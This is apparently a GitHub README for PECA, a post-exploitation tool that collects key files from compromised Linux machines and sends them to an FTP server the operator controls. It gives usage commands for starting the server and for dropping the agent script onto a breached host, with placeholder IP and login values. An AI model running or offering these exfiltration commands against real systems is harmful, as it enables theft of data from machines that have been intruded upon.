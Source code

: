 # PECA
Post Exploitation Collection Agent

Note: For educational use only
```
            ____  _______________
           / __ \/ ____/ ____/   |
          / /_/ / __/ / /   / /| |
         / ____/ /___/ /___/ ___ |
        /_/   /_____/\____/_/  |_|
    Post Exploitation Collection Agent 
```
##### Intro:
    Peca was designed to help collect key files from linux machines after exploitation has occured.
    
##### Use:

Simple start the server *Sudo is needed for port 21*
```
    ./server.py --ip <iphere> --port 21 --user hacker --password hacker
```

Then drop the peca script on the client
```
    ./peca.py --server <iphere> --port 21 --user hacker --password hacker
```

